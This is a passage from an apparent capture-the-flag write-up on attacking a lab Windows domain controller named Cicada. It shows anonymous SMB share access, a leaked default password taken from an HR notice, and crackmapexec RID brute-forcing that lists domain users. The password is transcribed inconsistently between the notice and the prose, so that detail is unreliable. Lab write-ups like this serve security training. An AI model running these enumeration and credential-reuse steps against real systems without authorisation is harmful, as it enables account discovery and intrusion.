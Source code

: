 ```bash
smbclient //10.10.11.35/HR 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 17:59:09 2024
  ..                                  D        0  Thu Mar 14 17:51:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 23:01:48 2024

                4168447 blocks of size 4096. 330716 blocks available
```
We have found a text file. We will now transfer it to our local machine.

```plaintext
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```
We have retrieved a welcome message from the `Notice from HR.txt` file. The message serves as a welcome note to a new employee at Cicada Corp, emphasizing the importance of changing the default password. The default password provided in the text file is `Cicada$M6Corpb@Lp#nZp!8*`.

Let’s use crackmapexec to enumerate the SMB service. We have attempted multiple methods, including `--shares`, `--users`, and `--sessions`, to gather more information, but there has been no success. Now, we will try enumerating using RID brute forcing.

RID Brute Forcing (`--rid-brute`) is a technique used in Windows environments to enumerate user accounts by exploiting the Security Identifier (SID) structure. This method can help identify user accounts, including those that may not be visible through standard enumeration techniques.

```bash
crackmapexec smb 10.10.11.35 -u anonymous -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: 
SMB         10.10.11.35     445    CICADA-DC        [+] Brute forcing RIDs
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```